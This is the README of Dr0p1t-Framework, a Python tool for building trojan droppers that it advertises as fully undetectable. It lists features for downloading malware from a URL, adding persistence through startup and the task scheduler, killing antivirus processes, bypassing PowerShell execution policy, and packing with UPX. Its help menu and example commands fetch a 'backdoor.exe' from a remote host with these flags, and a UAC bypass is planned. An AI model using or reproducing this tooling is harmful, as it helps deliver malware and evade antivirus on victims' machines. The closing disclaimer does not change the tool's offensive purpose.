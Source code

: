 # Dr0p1t-Framework (beta version) [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)

Have you ever heard about trojan droppers ? you can read about them from [here](https://blog.malwarebytes.com/threats/trojan-dropper/).

Dr0p1t let you create dropper like any tool but this time FUD and with some tricks ;)

#Features
- Works with Windows and Linux
- Adding malware after downloading it to startup
- Adding malware after downloading it to task scheduler
- Finding and killing the antivirus before running the malware
- Running a custom (batch|powershell|vbs) file you have choosen before running the malware
- In running powershell scripts it can bypass execution policy
- Using UPX to compress the dropper after creating it
- Choose an icon for the dropper after creating it

#Screenshots
##On Windows
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random2.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Windows/Random1.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/raw/master/Screenshots/Windows/Help_msg.JPG" width="35%"></img>
##On Linux (Backbox)
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random1.JPG" width="55%"></img>

<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Random2.JPG" width="40%"></img>
<img src="https://github.com/D4Vinci/Dr0p1t-Framework/blob/master/Screenshots/Linux/Help_msg.JPG" width="35%"></img>

###Help menu
```
Usage: Dr0p1t.py Malware_Url [Options]

options:
  -h, --help   show this help message and exit
  -s           Add your malware to startup (Persistence)
  -t           Add your malware to task scheduler (Persistence)
  -k           Kill antivirus process before running your malware.
  -b           Run this batch script before running your malware. Check scripts folder
  -p           Run this powershell script before running your malware. Check scripts folder
  -v           Run this vbs script before running your malware. Check scripts folder
  --only32     Download your malware for 32 bit devices only
  --only64     Download your malware for 64 bit devices only
  --upx        Use UPX to compress the final file.
  -i           Use icon to the final file. Check icons folder.
  -q           Stay quite ( no banner )
  -u           Check for updates
  -nd          Display less output information
```
###Examples
```
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k --upx
./Dr0p1t.py https://test.com/backdoor.exe -k -b block_online_scan.bat --only32
./Dr0p1t.py https://test.com/backdoor.exe -s -t -k -p Enable_PSRemoting.ps1
```
#Prerequisites
- Python 3.x( prefered 3.5 )
- Python libraries requirements in requirements.txt

#Installation
First download it by
```
git clone https://github.com/D4Vinci/Dr0p1t-Framework
```
if you are on linux and do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
./Dr0p1t.py
```
And if you are on windows download it and then do
```
cd Dr0p1t-Framework
pip install -r requirements.txt
pip install -r windows_requirements.txt
./Dr0p1t.py
```
Libraries in windows_requirements.txt are used to enable unicodes in windows which will make coloring possible :smile:


##Todo
- Python 2 support
- Work on UAC bypass
- More modules

##Disclaimer
Dr0p1t Framework not responsible for misuse and for illegal purposes.Use it only for work or educational purpose !!!

> Pull requests are always welcomed :)

#Much more features to come!
